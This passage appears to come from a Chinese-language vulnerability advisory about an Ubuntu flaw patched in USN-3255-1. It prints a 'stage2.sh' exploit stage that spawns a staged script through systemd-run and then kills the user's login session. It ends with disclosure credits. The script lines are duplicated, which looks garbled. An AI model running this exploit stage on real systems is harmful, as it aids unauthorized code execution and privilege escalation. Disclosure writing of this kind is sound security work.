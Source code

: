 stage2.sh



```
#!/bin/sh
/usr/bin/systemd-run --user /var/tmp/run.sh
/bin/cat
#!/bin/sh
/usr/bin/systemd-run --user /var/tmp/run.sh
/bin/sleep 15s
/bin/loginctl terminate-session `/bin/loginctl session-status | /usr/bin/head -1 | /usr/bin/awk '{ print $1 }'`
```



**四、其他说明**

独立安全研究员G. Geshev（@munmap）已将该漏洞提交至Beyond Security公司的SecuriTeam安全公告计划。厂商已经发布了补丁来修复此问题，更多细节可以参考[此链接](https://www.ubuntu.com/usn/usn-3255-1/)。
